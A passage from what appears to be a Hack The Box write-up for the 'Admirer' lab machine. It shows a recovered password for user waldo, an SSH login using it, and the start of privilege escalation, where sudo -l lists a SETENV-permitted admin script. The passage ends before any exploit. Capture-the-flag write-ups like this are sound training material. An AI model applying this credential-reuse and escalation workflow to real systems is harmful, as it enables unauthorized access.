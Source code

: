 On going through the `result` we get password for `waldo` user

![Admirer](/assets/img/post/hackthebox/admirer/10.png)

`waldo:&<h5b~yK3F#{PaPB&dA}{H>`

```bash
 ~/htb/boxes/Admirer >> ssh waldo@admirer.htb
The authenticity of host 'admirer.htb (10.10.10.187)' can't be established.
ECDSA key fingerprint is SHA256:NSIaytJ0GOq4AaLY0wPFdPsnuw/wBUt2SvaCdiFM8xI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'admirer.htb' (ECDSA) to the list of known hosts.
waldo@admirer.htb's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun May 10 12:41:02 2020 from 10.10.15.160
waldo@admirer:~$ id & whoami
[1] 5979
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)
waldo
[1]+  Done                    id
waldo@admirer:~$ ls
user.txt
waldo@admirer:~$ 
```
# Privilege Escalation:~$

```bash
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
waldo@admirer:~$ 
```
